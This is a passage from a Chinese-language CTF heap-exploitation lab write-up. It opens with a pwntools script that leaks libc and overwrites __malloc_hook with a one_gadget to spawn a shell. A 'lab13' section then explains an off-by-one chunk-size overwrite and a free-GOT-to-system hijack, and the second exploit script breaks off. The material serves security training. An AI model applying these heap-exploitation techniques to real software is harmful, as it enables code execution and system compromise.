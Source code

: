 ```python  
        create(0x98,"a"*8,"1234")  
        create(0x68,"b"*8,"b"*8)  
        create(0x68,"b"*8,"b"*8)  
        create(0x20,"b"*8,"b"*8)  
        remote(0)  
        clean()  
        create(0x98,"c"*8,"c"*8)  
        visit()  
  
        ru("c"*8)  
        leak = u64(p.recv(6).ljust(8,"\x00"))  
        libc_base = leak -0x58-0x10 -libc.symbols["__malloc_hook"]  
        print "leak----->"+hex(leak)  
        malloc_hook = libc_base +libc.symbols["__malloc_hook"]  
        realloc = libc_base + libc.symbols['__libc_realloc']  
        print "malloc_hook----->"+hex(malloc_hook)  
        print "libc_base----->"+hex(libc_base)  
        # 0x45226  
        # 0x4527a  
        # 0xf0364  
        # 0xf1207  
        one_gadget = 0xf1207 + libc_base  
  
  
        remote(1)  
        remote(2)  
        remote(1)  
        #debug()  
        create(0x68,p64(malloc_hook-0x23),"b"*4)  
        create(0x68,"b"*8,"b"*8)  
        create(0x68,"b"*8,"b"*8)  
  
        create(0x68,"a"*(0x13-0x8)+p64(one_gadget)+p64(realloc + offset),"b"*4)  
        ru("Your choice : ")  
        sl("1")  
        sleep(0.1)  
        p.interactive()  
        offset += 1  
    except:  
        p.close()  
```  
  
## lab13  
  
off-by-one，可以覆盖下一次chunk的size  
  
- create两个chunk，用chunk0溢出到chunk1 的size位，然后free掉chunk1  
- 申请一个新的chunk2，使得chunk2落在chunk1size的部分从而修改指针  
- 改free的got表为system的地址，然后使得chunk0 的内容为/bin/sh，接着free（chunk0）从而getshell  
  
```python  
#coding=utf-8  
  
from pwn import *  
  
#context.log_level = "debug"  
  
r = process("./heapcreator")  
elf = ELF("./heapcreator")  
libc = elf.libc  
  
def createHeap(size, content):  
    r.recvuntil(":")  
    r.sendline("1")  
```